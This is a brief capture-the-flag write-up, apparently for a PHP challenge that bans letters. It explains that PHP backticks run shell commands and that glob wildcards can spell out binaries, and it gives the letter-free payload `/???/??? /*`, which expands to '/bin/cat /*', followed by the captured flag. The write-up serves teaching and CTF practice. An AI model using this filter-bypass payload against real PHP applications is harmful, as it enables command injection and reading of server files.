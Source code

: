 As we cant use alpha chars my first thaught was phpfuck

But due to the 100 char limit thats not possible

So i did some searching, and came over https://www.php.net/manual/en/language.operators.execution.php which states `\``can be used for running shell commands

Combineing this with wildcards we can run commands like cat

https://tldp.org/LDP/GNU-Linux-Tools-Summary/html/x11655.htm

```php
`/???/??? /*`
```
equates to
```bash
/bin/cat /*
```

CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}
